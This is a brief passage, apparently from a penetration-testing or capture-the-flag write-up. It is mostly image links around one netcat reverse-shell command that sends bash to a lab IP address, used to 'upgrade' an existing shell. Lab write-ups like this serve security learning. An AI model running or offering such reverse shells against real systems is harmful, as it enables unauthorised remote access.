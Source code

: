 Awesome, I upgrade my shell:

```bash
busybox nc 192.168.45.185 3306 -e bash
```

![](../../../assets/2827364c18194d3f6af7867ed57cc5f0.png)

![](../../../assets/18f83b034f2260a5bacb32c8fc04bf4a.png)
